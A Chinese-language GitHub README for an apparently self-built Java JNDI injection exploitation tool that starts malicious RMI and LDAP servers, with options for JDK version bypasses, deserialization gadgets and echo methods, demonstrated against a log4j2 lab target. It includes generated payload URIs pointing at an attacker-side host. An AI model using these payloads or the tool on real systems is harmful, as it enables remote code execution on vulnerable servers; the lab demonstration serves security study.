

## JNDI EXP——基于JNDI服务的Java漏洞利用工具

本项目是Java小白对前期学习内容的一个梳理和总结，并最终输出落地的小成果。

本项目是基于 su18 师傅的 [JNDI](https://github.com/su18/JNDI) 以及 welk1n 师傅的 [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/)，在他们的基础上拓展了小部分高版本绕过的姿势，以及采用了配置文件和命令行结合的方式来输入数据，本质上是一个轮子项目，但是自己学到了模块化集成与开发，知识点归纳的能力，这就足够了。


## 功能

工具启动后可以看到提供 RMI 和 LDAP 两种服务，根据用户命令行输入来启动指定的服务。同时后台有 Jetty 内置 web服务器用来接收处理重定向请求，返回攻击向量


-s 参数指定使用的具体服务类型 rmi/ldap

**JNDI-RMI 提供的功能如下:**


-e 参数指定攻击利用选项，参考 su18 师傅对基本的利用做了归纳；-p 指定服务监听端口；-l 指定 Jetty 服务器监听的端口； -s 指定服务所在主机 ip；-o 指定了攻击向量的类型（低版本高版本绕过方式）

**JNDI-LDAP 提供的功能如下：**


与前面类似，不过这里 -g 参数用于在高版本绕过 codebase 限制时选择指定的反序列化利用gadget

另外，搭配配置文件来指定具体的内容


其中最后的 echo 选项指定回显方式

## 安装使用

```git
git clone 
java -jar JNDIEXP-1.0-SNAPSHOT-all.jar -h
```


## 使用展示

这里以 vulhub 的 log4j2 靶场为例，对相关功能进行展示


- JNDI-RMI 攻击：

  

生成 payload：`rmi://172.16.80.1:1099/Command`

结合log4j2的payload注入靶场中对应的字段


可以看到工具成功进行了回响，但是服务端无回显内容，查看OOB回显的DNS平台成功回显


- JNDI-LDAP 攻击：


生成 payload: `ldap://172.16.80.1:1099/Command`

结合log4j2的payload注入靶场中对应的字段


同样在dns平台得到回显




## 技术细节

架构如下：


回显技术以及通用的利用技术参考了 su18 师傅的实现。

命令行处理模块利用了 picocli 这个命令行组件，收集齐所有参数。通过 -s 参数指定的服务类型分发给对应的服务端，启动并生成payload，处理发过来的请求。

这里命令行组件可能存在线程问题，导致 ldap 服务端这里在发起端口监听之后程序就自动退出了，我这里作了简单的线程延时的缓解 `Thread.sleep(100000);`

rmi 和 ldap 服务汇总了常见的利用思路：rmi 低版本远程类加载、高版本（8u131）通过本地工厂类加载（tomcat 和 groovy）；ldap 低版本远程类加载、高版本（8u191）通过传递反序列化链达到 RCE，具体细节可以参见：

- https://racerz-fighting.github.io/2023/01/11/JNDI/


字节码生成模块使用了 idea 中的插件 `ASM Bytecode Outline` 生成，利用反射作粘合剂。su18师傅提到的未完成中提到使用 AdviceAdapter 的 onMethodEnter、onMethodExit更优雅的生成代码。我在这里做了尝试，但是没有成功，主要遇到如下几个问题：

onMethodEnter 是基于 `visitCode` 方法进行封装的，所以插入字节码时要先弄清楚方法的起始点在哪里，这里在对构造函数进行处理时很容易乱；其次onMethodEnter 只允许对局部变量表当中的内容作修改，而不能改变操作数栈当中的状态，所以实现起来难度蛮大的


## 参考

https://github.com/su18/JNDI

https://github.com/welk1n/JNDI-Injection-Exploit/

https://javasec.org/